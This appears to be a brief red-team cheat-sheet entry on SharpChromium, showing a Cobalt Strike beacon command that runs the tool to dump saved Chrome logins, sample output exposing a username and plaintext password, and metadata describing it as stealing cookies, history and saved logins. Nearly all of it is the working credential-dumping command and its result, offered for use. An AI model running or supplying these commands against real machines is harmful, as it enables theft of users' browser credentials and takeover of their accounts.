 # Sharp Chromium

## [[Data Protection API (DPAPI)]]
Dump the Chrome passwords
``````beacon
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: john) ---
URL      : 
Username : john
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
``````



```meta
requirements: 
results: 
oss: #win
source: https://github.com/djhohnstein/SharpChromium
description: Dump cookies, history, saved logins from chrome
```